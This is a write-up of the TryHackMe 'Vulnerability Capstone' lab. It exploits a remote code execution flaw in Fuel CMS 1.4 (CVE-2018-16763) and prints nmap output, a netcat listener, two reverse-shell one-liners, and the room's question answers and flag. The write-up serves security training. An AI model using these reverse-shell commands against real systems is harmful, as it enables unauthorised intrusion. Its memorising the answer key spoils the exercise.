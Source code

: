 # Try Hack Me - [Vulnerability Capstone](https://tryhackme.com/jr/vulnerabilitycapstone)
##### Apply the knowledge gained throughout the Vulnerability Module in this challenge room.

## Task 1 - Introduction 

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module.
Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public.
It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.
```
Let's get hacking
> No answer needed
```

## Task 2 - Exploit the Machine (Flag Submission) 

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is recommended that you use the TryHackMe AttackBox to complete this room.

Allow five minutes to pass before attempting to attack the vulnerable machine MACHINE_IP

```
sudo nmap -v -sS -sC -sV 10.10.254.89

PORT   STATE SERVICE VERSION                                                                                                 
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                
| ssh-hostkey:                                                                                                                      
|   3072 5d:af:e8:dc:1c:b0:38:8f:4e:1d:a7:47:f4:51:27:5a (RSA)
|   256 bb:53:81:a2:9c:2d:24:0e:f3:bc:a9:a1:13:1d:ec:74 (ECDSA)
|_  256 bf:4b:91:59:f1:fa:a5:86:32:6d:ab:4e:06:3e:44:bf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to FUEL CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Fuel CMS 1.4
https://www.exploit-db.com/exploits/49487
https://www.exploit-db.com/exploits/50477
rce1.py
nc -lnvp 4444
# nc -e /bin/bash 10.13.25.242 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.25.242 4444 >/tmp/f
cd /home/ubuntu
ls
cat flag.txt
THM{ACKME_BLOG_HACKED}
```

```
Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.
> No answer needed
```

```
What is the name of the application running on the vulnerable machine?
> Fuel CMS
```

```
What is the version number of this application?
> 1.4
```

```
What is the number of the CVE that allows an attacker to remotely execute code on this application?Format: CVE-XXXX-XXXXX
> CVE-2018-16763
```

```
Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
> No answer needed
```

```
What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
> THM{ACKME_BLOG_HACKED}
```